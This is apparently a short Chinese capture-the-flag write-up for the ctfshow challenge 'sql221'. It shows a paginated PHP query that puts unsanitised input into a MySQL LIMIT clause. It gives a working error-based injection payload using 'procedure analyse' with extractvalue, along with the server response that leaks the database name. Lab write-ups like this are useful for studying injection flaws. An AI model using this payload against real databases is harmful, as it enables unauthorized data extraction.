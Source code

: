 # ctfshow-sql221



##### 参考p神链接

https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
//分页查询
  $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
      
```





 返回逻辑 

```
//TODO:很安全，不需要过滤
//拿到数据库名字就算你赢
```







```
http://aeb55c37-4da7-466d-b469-796fa666379b.challenge.ctf.show:8080/api/?page=1&limit=10 procedure analyse(extractvalue(1,concat(1,database())),1)
```





```
{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25XPATH syntax error: 'ctfshow_web_flag_x'","count":"0","data":[]}
```

